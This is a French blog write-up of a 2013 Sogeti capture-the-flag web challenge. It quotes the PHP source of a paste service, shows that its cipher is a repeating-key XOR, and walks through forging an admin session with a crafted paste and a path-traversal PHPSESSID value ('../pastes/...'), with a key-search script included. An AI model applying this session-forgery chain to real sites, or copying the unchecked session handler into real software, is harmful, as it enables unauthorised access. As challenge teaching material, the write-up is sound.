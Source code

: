```yaml
---
layout: post
title: Writeup challenge Sogeti
description: Un petit writeup pour le challenge réalisé à l'occasion d'un "security event" organisé par Sogeti.
photo: challenge_sogeti.png
categories: articles
tags: [hacking]
comments: true
---
```


Dans cet article je vais décrire les étapes nécessaire à la résultion d'un challenge réalisé à l'occasion d'un "security event" organisé par Sogeti le 25 juin 2013.

Sur la page d'accueil le message suivant est présent :

>Ce site web vous propose de stocker vos messages en ligne tout en les chiffrant à l'aide d'un algorithme inviolable.
>Votre but est d'accéder à la zone d'administration du site, une partie du code source est aussi disponible

## Un algorithme inviolable ? ##

Première étape, il va s'intéresser à cette algorithme soit disant inviolable.

Code de la page `add.php` :

{% highlight php linenos %}
<?php

include 'includes/init.php';

if(isset($_POST['message']) && isset($_POST['password']) && strlen($_POST['password']) >= 5)
{
    $name_file = md5(microtime());
    $cipher = cipher_it($_POST['message'], stripslashes($_POST['password']));
    $f = fopen(PASTE_DIRECTORY.$name_file, 'w+');
    fwrite($f, $cipher);
    fclose($f);
    header("Location: show.php?id=".$name_file."&password=".urlencode(stripslashes($_POST['password'])));
    exit;
}

$pagename = "add";
$title = "Nouveau message";
include 'includes/header.php';
?>
{% endhighlight %}

La fonction utlisée pour encoder le message est `cipher_it` et prend en argument le message ainsi qu'un mot de passe pour l'encoder.

Cette même fonction est utilisée pour décoder le message :

{% highlight php linenos %}
<?php

include 'includes/init.php';

if(!isset($_GET['id']) || !isset($_GET['password']) || preg_match("/^[0-9a-f]{32}$/", $_GET['id']) == false)
{
    header("Location: index.php");
    exit;
}

if(!is_file(PASTE_DIRECTORY.$_GET['id']))
{
    header("Location: index.php");
    exit;
}

$f = fopen(PASTE_DIRECTORY.$_GET['id'], "rb");
$content = cipher_it(fread($f, filesize(PASTE_DIRECTORY.$_GET['id'])), $_GET['password']);
fclose($f);

$pagename = "show";
$title = "Voir un message";
include 'includes/header.php';

    echo "<fieldset class=\"event_form\" style='text-align:left;'><pre style='background:transparent;'>".htmlspecialchars($content)."</pre></fieldset>";

include 'includes/footer.php';
?>
{% endhighlight %}

Cela signifie que si l'on applique deux fois la fonction permettant d'encoder le message avec le même mot de passe, on retombe sur le message d'origine. On pense alors à la fonction *xor* souvent utilisée en crypto et qui possède cette propriété. De plus, on observe qu'il est possible d'accéder au message chiffré car la constante *PASTE_DIRECTORY* est définie dans le fichier *consts.php*.

{% highlight php %}
<?php
define('PASTE_DIRECTORY', __DIR__.'/../pastes/');
?>
{% endhighlight %}

Les fichiers seront donc accessibles à partir de cette adresse :

    http://217.109.132.34/challenge/pastes/[MD5]

On va faire un petit test pour vérifier cette hypothèse. Si on chiffre le message test1 avec la clé test1 on se retrouve avec cette url :

    http://217.109.132.34/challenge/show.php?id=56499aff7b85dd3778f3572b1b822176&password=test1

Pour accéder au message chiffré il faut se rendre à l'adresse suivante :

    http://217.109.132.34/challenge/pastes/56499aff7b85dd3778f3572b1b822176

Quand on ouvre le fichier avec un éditeur de texte on se retrouve avec que des zéros :

    0000 0000 00

C'est donc bien la fonction `xor` qui est utilisée pour chiffrer les messages. On est donc désormais en mesure de créer des fichiers sur le serveur dont on maîtrise le contenu.

## Accès à la page d'administration ##

L'objectif premier de ce challenge est d'accéder à la page d'administration, jeton un coup d'oeil au code source :

{% highlight php linenos %}
<?php

include 'includes/init.php';

$pagename = "admin";
$title = "Administration";
include 'includes/header.php';

if(!isset($_SESSION['admin']) || $_SESSION['admin'] !== true)
{
    header("Location: index.php");
    exit;
}

define('ADMIN', true);
include 'admin_ok.php';

include 'includes/footer.php';
?>
{% endhighlight %}

On remarque qu'il n'est possible d'accéder à la page d'administration que si la variable de session admin est à true. Il nous faudrait donc un moyen nous permettant de manipuler la session.

## Gestion des sessions ##

Intéressons nous maintenant aux fichiers `init.php` et `class_session.php` :

{% highlight php linenos %}
<?php
class SuperSessionHandler{
    private $savePath;

    public function open($savePath, $sessionName){
        $this->savePath = $savePath;
        if (!is_dir($this->savePath)) {
            mkdir($this->savePath, 0777);
        }
        return true;
    }

    public function close(){
        return true;
    }

    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }

    public function write($id, $data){
        return file_put_contents("$this->savePath/$id", $data) === false ? false : true;
    }

    public function destroy($id){
        $file = "$this->savePath/$id";
        if (file_exists($file)) {
            unlink($file);
        }
        return true;
    }

    public function gc($maxlifetime){
        foreach (glob("$this->savePath/*") as $file) {
            if (filemtime($file) + $maxlifetime < time() && file_exists($file)) {
                unlink($file);
            }
        }

        return true;
    }
}
?>
{% endhighlight %}

{% highlight php lineos %}
<?php

include 'includes/fonctions.php';
include 'includes/consts.php';
include 'includes/class_sessions.php';

error_reporting(0);

$s = new SuperSessionHandler();
session_save_path(__DIR__.'/../sessions/');
session_set_save_handler (
        array(&$s, 'open'),
        array(&$s, 'close'),
        array(&$s, 'read'),
        array(&$s, 'write'),
        array(&$s, 'destroy'),
        array(&$s, 'gc')
        );
session_start();
?>
{% endhighlight %}

On remarque qu'une classe a été crée permettant de redéfinir la manière dont seront stockées les sessions, les sessions sont stockée dans le dossier *sessions*. Pour accéder à la session il faut se rendre à l'adresse :

    http://217.109.132.34/challenge/sessions/[PHPSESSID]

Si on regarde de plus près la fonction `read`, il s'avère que le paramètre `id` n'est pas du tout contrôlé !

{% highlight php %}
<?php
    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }
?>
{% endhighlight %}

On est donc en mesure de choisir le fichier qui sera utilisé comme session est modifiant le `PHPSESSID`.

## Résolution de l'épreuve ##

Si on récapitule :
-   Il nous est possible de créer sur le serveur un fichier au contenu arbitraire
-   Pour accéder à la page d'administration il faut modifier sa session
-   On a de la chance la gestion des sessions est personnalisée

On va donc crée un message chiffré qui sera utilisé comme fichier de session afin de se faire passer pour l'admin. Le contenu du fichier de session avec la variable admin à true ressemble à ça :

    admin|b:1;

Pour obtenir le message chiffré j'ai créé un petit script qui me génère une clé afin que le premier texte chiffré ne contienne que des caractère imprimables.

{% highlight php lineos %}
<?php
function xor_this($string,$key) {
 // Our plaintext/ciphertext
 $text =$string;

 // Our output text
 $outText = '';

 // Iterate through each character
 for($i=0;$i<strlen($text);)
 {
     for($j=0;($j<strlen($key) && $i<strlen($text));$j++,$i++)
     {
         $outText .= $text{$i} ^ $key{$j};
         //echo 'i='.$i.', '.'j='.$j.', '.$outText{$i}.'<br />'; //for debugging
     }
 }
 return $outText;
}

function generateRandomString($length = 10) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $randomString;
}

while(1){
    $key =generateRandomString();
    if(ctype_print(xor_this('admin|b:1;',$key))){
        echo $key."<br/>";
        echo ctype_print(xor_this('admin|b:1;',$key));
        die();
    }
}
?>
{% endhighlight %}

Le principe est simple je génère une chaine de caractère aléatoire de même taille que le texte à chiffrer et je vérifie que le texte obtenu en sortie est constitué uniquement de caractère imprimables avec la fonction `ctype_print`.

Clés qui fonctionnnent :

    Y3BFOWOXlV
    KYNZAPHCcC
    GZV2KSEpds

Une fois que l'on a la clé il suffit de chiffrer le message une première fois avec la clé, pour chiffrer à nouveau le résultat avec cette même clé.

    Clé     : FJQ5VPSStf
    Message : admin|b:1;
    Cipher  : '.<\8,1iE]

    Clé     : FJQ5VPSStf (clé)
    Message : '.<\8,1iE] (cipher)
    Cipher  : admin|b:1;

On se rend à l'adresse du message chiffré et on retrouve bien notre message d'origine

Il ne reste plus qu'a changé la valeur du `PHPSESSID` pour qu'il pointe sur notre message. Pour cela j'ai utilisé l'extension "Edit this cookie" pour Chrome et j'ai remplacé la valeur du `PHPSESSID` par :

    ../pastes/2790cdae372837fbc4347f63990bda54

Et voila si l'on se rend sur la page d'administration le message affiché est désormais :

>Félicitations !
>Le message caché est :
>Si tu es arrivé(e) jusque là c'est que tu peux aller jusqu'Issy !

Au final une épreuve pas très compliquée mais intéressante :)

